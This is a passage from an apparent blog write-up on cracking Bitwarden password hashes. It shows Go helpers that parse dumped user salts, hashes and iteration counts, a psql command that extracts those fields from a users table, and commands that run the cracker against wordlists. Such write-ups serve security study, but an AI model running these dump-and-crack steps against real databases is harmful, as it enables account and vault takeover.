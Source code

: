 	return hexServerPasswordHash == hash
}

func parseCSV(path string) []User {
	file, err := os.Open(path)
	if err != nil {
		log.Fatalf("failed to open %s\n", path)
	}
	defer file.Close()

	lines, err := csv.NewReader(file).ReadAll()
	if err != nil {
		log.Fatalf("failed to read csv %s\n", path)
	}

	var users []User
	for _, line := range lines {
		var user User
		user.Email = line[0]
		user.Salt = parseHex(line[1])
		user.Hash = parseHex(line[2])
		user.ClientIterations, _ = strconv.Atoi(line[3])
		user.ServerIterations, _ = strconv.Atoi(line[4])
		users = append(users, user)
	}
	return users
}

func parseWordlist(path string) []string {
	file, err := os.Open(path)
	if err != nil {
		log.Fatalf("failed to open %s\n", path)
	}

	scanner := bufio.NewScanner(file)
	scanner.Split(bufio.ScanLines)
	var wordlist []string
	for scanner.Scan() {
		wordlist = append(wordlist, scanner.Text())
	}
	return wordlist
}

func parseHex(raw string) string {
	if strings.HasPrefix(raw, hexPrefix) {
		raw = strings.Replace(raw, hexPrefix, "", 1)
	}
	return raw
}
{% endhighlight %}
***Note:*** *The actual cracking was done with each email and word list processed in parallel.*

I extracted the necessary fields from the users table into a csv file:

{% highlight bash %}
```
psql -U postgres -h 172.17.0.2 bitwarden --csv -t -c "select email, salt, password_hash, client_kdf_iter, password_iterations from users;" -o targets.csv
```
{% endhighlight %}
And then ran it against different word lists:
{% highlight bash %}
```
go build bitwarden.go
./bitwarden targets.csv wordlist
```
{% endhighlight %}
